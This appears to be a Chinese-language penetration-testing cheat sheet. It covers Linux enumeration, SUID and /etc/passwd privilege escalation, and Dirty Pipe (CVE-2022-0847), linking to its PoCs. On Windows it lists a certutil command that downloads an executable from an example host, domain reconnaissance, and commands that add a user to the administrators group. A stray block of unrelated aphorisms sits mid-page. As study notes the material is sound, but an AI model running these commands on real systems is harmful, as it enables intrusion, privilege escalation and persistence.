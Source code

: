 # Linux

## 系统架构信息
* uname -a ： uname命令报告有关计算机的软件和硬件的基本信息。
* cat /etc/issue ：文件/ etc / issue是一个文本文件，其中包含要在登录提示之前打印的消息或系统标识
* cat /etc/*-release ： 文件包含一个被解析以获取信息的描述行。
* cat /proc/version ：/ proc/versio指定了Linux内核的版本，用于编译内核的gcc的版本以及内核编译的时间。 它还包含内核
编译器的用户名。
* cat /proc/sys/kernel/version ： /proc/sys/kerne / 中的文件可以用来调整和监视Linux内核操作中的各种活动

## 进程

* ps -ef /ps aux : 列出当前进程快照
* ls -al /proc/ : /proc是非常特殊的，它也是一个虚拟文件系统。 它有时被称为过程信息伪文件系统。 它不包含“真实”文件，而是包含运行时系统信息（例如系统内存，安装的设备，硬件配置等）。
* ls -al /proc/99 :查看关于PID 99的信息.

## 服务

* service -status-all 检查所有服务状态
* systemctl -a 列出安装在文件系统中的所有单元
* cat /etc/services /etc/services将端口号映射到指定的服务

## suid

suid指的是set owner User ID up on execution linux可执行文件的一个属性 suid可以让其他用户执行程序时 以程序所有者的权限运行

比如常见的passwd就带有suid位 所有用户都可以使用他来设置密码:

```
root@eb5936bbd348:~/tmp# ls -al /usr/bin/passwd
-rwsr-xr-x 1 root root 68208 Jul 14  2021 /usr/bin/passwd
```
 
编译一段可执行程序 并设置suid

![path](https://nanazeven.github.io/image/2022-03-15-15-52-46.png)


查找根目录下所有的suid程序`find / -perm -u=s -type f 2>/dev/null`:

![path](https://nanazeven.github.io/image/2022-03-15-15-54-36.png)

## /etc/passwd /etc/shadow

```
root@eb5936bbd348:/# cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
```

passwd文件的第二列为x代表root用户的密码存放在shadow文件中

可以覆盖或修改passwd中root行第二列的x为空 root密码置空 实现提权


## Dirty Pipe提权漏洞（CVE-2022-0847）

内核在5.8以上的 可以通过Dirty Pipe漏洞覆盖只读文件内的数据 限制条件是:

- 只能向已经存在文件内写入
- 文件的第一个字符不可以写入
- 写入长度不能超过源文件

在Linux 5.16.11, 5.15.25 and 5.10.102内核版本中修复

向只读文件passwd中写入,将root所在行的第二列x覆盖掉 最后通过su无密码切换root:

![path](https://nanazeven.github.io/image/2022-03-15-14-05-01.png)

第二种提权方式通过修改带有suid属性的程序来提权:

![path](https://nanazeven.github.io/image/2022-03-15-15-58-04.png)

作者原始POC:`https://dirtypipe.cm4all.com/`
优化POC:`https://haxx.in/files/dirtypipez.c`

## kali

### 启用root

- sudo passwd

## null

人之贵贱在乎于心 其心贵 虽为贩夫走卒 难掩浩然之气.其心贱 总理庙堂之高

清交淡如水 亲疏随意 爱恨随缘 清凉自在


贫富差距

兴 百姓苦 亡 百姓苦


# windows

## Windows上自带Certutil

### 下载

certutil可用于从互联网下载文件。

```shell
certutil.exe -urlcache -split -f http://example.com/a.txt a.exe
```

## 域信息收集常用命令

net use  查看ipc连接情况
net user /domain 获取域用户列表
net user test 123 /add 添加用户
net localgroup administrators test /add 添加test用户到管理组，一般情况下，管理组才能远程桌面
net group /domain 查询域里面的组
net group "domain admins" /domain 获取域管理员列表
net group "enterprise admins" /domain   查看当前域中企业管理员组用户
net group "domain computers" /domain    查看当前域中的所有的计算机名（登录过该域的计算机）
net group "exchange servers" /domain    查看域内是否存在Exchange
net group "domain controllers" /domain 查看域控制器(如果有多台)
net config workstation  查看当前登录域
net view 查看同一域内机器列表
net view \\ip 查看某IP共享
net view \\test 查看test计算机的共享资源列表
net view /domain 查看内网存在多少个域
Net view /domain:test 查看test域中的机器列表
wmic useraccount get Caption,sid    获取域内所有用户sid
setspn -T target.com -Q */*     获取当前域内所有spn
for /l %i in (1,1,255) do @ping 192.168.0.%i -w 1 -n 1 | find /i"ttl"
for /l %i in (1,1,255) do @ping 10.10.10.%i -w 1 -n 1 | find /i"ttl"

systeminfo  查看补丁情况，也能看到当前机器是否加入域环境
net group "domain controllers" /domain  查询域控
nslookup -type=SRV _ldap._tcp.corp  通过srv记录获取域控地址
nltest /dclist:corp     使用nltest查询域控列表
tasklist /svc   查看进程及对应服务名
cmdkey /l   查看当前保存的登陆凭证
type c:\Windows\system32\drivers\etc\hosts  可以发现些内网IP


### 黄金票据(Golden Ticket)

在普通域用户权限和krbtgt hash的情况下,获取域管理员权限.

## HTA（html应用程序）攻击

# 常见的路由协议

# 提权

windows下有user administrator system
linux下有user www-data root

常规提权思路有:

- 系统内核溢出漏洞提权
- 服务器中间件漏洞提权
- 数据库提权
- 第三方组件提权



